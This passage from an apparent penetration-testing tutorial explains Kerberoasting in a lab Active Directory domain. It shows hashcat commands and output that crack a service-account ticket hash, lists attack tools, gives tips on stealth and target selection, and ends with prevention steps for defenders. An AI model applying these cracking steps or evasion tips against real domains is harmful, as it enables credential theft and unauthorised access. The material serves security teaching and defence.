 Given that wordlist, I'll use hashcat to crack the hash. When it comes to rules, if you don't succeed with your initial wordlist, try using this [ruleset](https://github.com/NotSoSecure/password_cracking_rules). It's been really useful for me.

```
Example command without rules: hashcat -m 13100 -a 0 ./iis_002.hash ./wordlist_final.txt
Example command with rules: hashcat -m 13100 -a 0 ./iis_002.hash ./wordlist_final.txt -r ./OneRuleToRuleThemAll.rule

...
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*IIS_002$lab.domain$IIS_002/winsrv.lab....653641
Time.Started.....: Sun Dec  6 16:42:03 2020 (0 secs)
Time.Estimated...: Sun Dec  6 16:42:03 2020 (0 secs)
Guess.Base.......: File (./wordlist_final.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   375.1 kH/s (8.66ms) @ Accel:64 Loops:1 Thr:64 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 69632/101298 (68.74%)
Rejected.........: 0/69632 (0.00%)
Restore.Point....: 65536/101298 (64.70%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: lou -> megaman123
...
```

After obtaining cracked credentials, the Domain is your oyster!

**Tools:**
- [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)
- [Invoke-Kerberoast](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
- [Rubeus](https://github.com/GhostPack/Rubeus)

### Insights

- Kerberoasting is pretty quiet. Start with this before performing any type of rapid password spraying against a domain.
- Don't perform mass requests for Kerberos service tickets if you're trying to be stealthy. Generate a list of target service accounts and slowly obtain their hashes.
- Include strings related to your target organization in your wordlist. Tools like [cewl](https://github.com/digininja/cewl) make this easy.
- Look for service accounts with passwords set not to expire. These can be easy targets for Kerberoasting.
- Look for service accounts with a large number of SPNs. Should you gain access to these accounts, it's possible that you will have widespread local admin access.
- A good wordlist can make up for bad cracking hardware.

### Prevention

It's not possible to directly prevent Kerberoasting attacks, since AD would become crippled without the ability of users to requests service tickets. However, defensive teams can take action to make the attacker's life much harder.
1. Ensure all service accounts conform to a strong domain password policy, at least. Even better if a more complex password policy is used for service accounts.
2. Implement a system for continuous password rotation for critical service accounts, possibly using enterprise password vaults.
3. Limit local administrator access for service accounts.
4. Ensure constraints are placed on delegation rights for accounts on the domain.
5. Limit remote access methods used by service accounts (RDP, WMI, WinRM).
6. Ensure that service accounts have password expiration requirements.
